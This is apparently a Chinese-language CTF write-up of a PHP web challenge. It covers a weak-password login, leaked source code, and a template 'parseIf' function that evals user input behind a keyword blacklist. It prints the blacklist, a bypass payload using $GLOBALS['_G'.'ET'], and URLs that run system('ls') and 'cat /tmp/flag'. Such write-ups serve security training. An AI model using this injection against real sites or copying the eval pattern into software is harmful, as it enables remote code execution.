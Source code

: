 参考链接：http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/



[TOC]



# 题目链接

http://101.71.29.5:10000/web/index.php

# 解题思路

首先查看web页面，发现有几个按键。

![1538140258132](F:\学习资料\hacker\学习笔记\ctf\writeup\安恒杯\周周练18期\1538140258132.png)

依次查看，发现需要登陆，首先尝试爆破登陆。可以采用弱口令进行登陆。

弱口令：admin/admin123

登陆完成以后，再次查看每个页面。

- Backup

  

  ![1538142082277](F:\学习资料\hacker\学习笔记\ctf\writeup\安恒杯\周周练18期\1538142082277.png)

- ADD_IMG

  ![1538142193384](F:\学习资料\hacker\学习笔记\ctf\writeup\安恒杯\周周练18期\1538142193384.png)

根据backup页面的信息提示

```
You_Cant_Guess.zip

Flag in /tmp/flag 
```

首先将You_Cant_Guess.zip下载下来。发现里面有两个php文件

```
ContentController.php
SiteController.php
```

我们知道还有另一个页面，是添加图片的，我们找到添加图片页面使用到的代码段。

首先测试这个添加图片的页面如何工作，尝试添加一次

```
Name处输入test
Url处输入test
```

提交以后，页面将会以以下格式输出

```
图片内容为：
图片ID：542
图片名称:test
图片地址：test
```

根据上述提示，可以在ContentController.php文件中找到对应的代码

```
    public function actionShow(){
        $template = '<h1>图片内容为：</h1>图片ID：{cms:id}<br>图片名称:{cms:name}<br>图片地址：{cms:pic}';
        if (isset($_GET['id'])) {
            $model = new Content();
            $res = $model->find()->where(['id' =>intval($_GET['id'])])->one();
            $template = str_replace("{cms:id}",$res->id,$template);
            $template = str_replace("{cms:name}",$res->name,$template);
            $template = str_replace("{cms:pic}",$res->url,$template);
            $template = $this->parseIf($template);
            echo $template;
        }else{
            return json_encode(['error'=>'id error!']);
        }
```

通过分析代码，可以发现其中引用了parseIf功能来执行代码，对应的parseIf功能的代码如下：

```
    public function parseIf($content){
        if (strpos($content,'{if:')=== false){
            return $content;
        }else{
            $labelRule = $this->buildregx("{if:(.*?)}(.*?){end if}","is");
            $labelRule2="{elseif";
            $labelRule3="{else}";
            preg_match_all($labelRule,$content,$iar);
            foreach($iar as $v){
                $iarok[] = str_ireplace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','_SERVER','assert','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
            }
            $iar = $iarok;
            $arlen=count($iar[0]);
            $elseIfFlag=false;
            for($m=0;$m<$arlen;$m++){
                $strIf=$iar[1][$m];
                $strIf=$this->parseStrIf($strIf);
                $strThen=$iar[2][$m];
                $strThen=$this->parseSubIf($strThen);
                if (strpos($strThen,$labelRule2)===false){
                    if (strpos($strThen,$labelRule3)>=0){
                        $elsearray=explode($labelRule3,$strThen);
                        $strThen1=$elsearray[0];
                        // $strElse1=$elsearray[1];
                        @eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
                        if ($ifFlag){ $content=str_replace($iar[0][$m],$strThen1,$content);} else {$content=str_replace($iar[0][$m],$strElse1,$content);}
                    }else{
                        @eval("if(".$strIf.") { \$ifFlag=true;} else{ \$ifFlag=false;}");
                        if ($ifFlag) $content=str_replace($iar[0][$m],$strThen,$content); else $content=str_replace($iar[0][$m],"",$content);}
                }else{
                    $elseIfArray=explode($labelRule2,$strThen);
                    $elseIfArrayLen=count($elseIfArray);
                    $elseIfSubArray=explode($labelRule3,$elseIfArray[$elseIfArrayLen-1]);
                    $resultStr=$elseIfSubArray[1];
                    $elseIfArraystr0=addslashes($elseIfArray[0]);
                    @eval("if($strIf){\$resultStr=\"$elseIfArraystr0\";}");
                    for($elseIfLen=1;$elseIfLen<$elseIfArrayLen;$elseIfLen++){
                        $strElseIf=$this->getSubStrByFromAndEnd($elseIfArray[$elseIfLen],":","}","");
                        $strElseIf=$this->parseStrIf($strElseIf);
                        $strElseIfThen=addslashes($this->getSubStrByFromAndEnd($elseIfArray[$elseIfLen],"}","","start"));
                        @eval("if(".$strElseIf."){\$resultStr=\"$strElseIfThen\";}");
                        @eval("if(".$strElseIf."){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                        if ($elseIfFlag) {break;}
                    }
                    $strElseIf0=$this->getSubStrByFromAndEnd($elseIfSubArray[0],":","}","");
                    $strElseIfThen0=addslashes($this->getSubStrByFromAndEnd($elseIfSubArray[0],"}","","start"));
                    if(strpos($strElseIf0,'==')===false&&strpos($strElseIf0,'=')>0)$strElseIf0=str_replace('=', '==', $strElseIf0);
                    @eval("if(".$strElseIf0."){\$resultStr=\"$strElseIfThen0\";\$elseIfFlag=true;}");
                    $content=str_replace($iar[0][$m],$resultStr,$content);
                }
            }
            return $content;
```

根据这个函数的功能，之前有过一个漏洞是这个函数引起的问题。

参考文章，`https://www.anquanke.com/post/id/153402  `

那么我们这次添加图片为

```
Name处输入
test
Url处输入
{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);die();//}{end if}

```

这次的输出页面为

![1538143044131](F:\学习资料\hacker\学习笔记\ctf\writeup\安恒杯\周周练18期\1538143044131.png)

给输出的url添加参数a和参数b

```
http://101.71.29.5:10000/web/index.php?r=content%2Fshow&id=543&a=system&b=ls
```

![1538143102722](F:\学习资料\hacker\学习笔记\ctf\writeup\安恒杯\周周练18期\1538143102722.png)

根据之前的页面提示，可以知道。flag位于/tmp/flag，那么我们构造url

```
http://101.71.29.5:10000/web/index.php?r=content%2Fshow&id=543&a=system&b=cat /tmp/flag
```

成功获取flag

```
flag{65bb1dd503d2a682b47fde40571598f4}
```

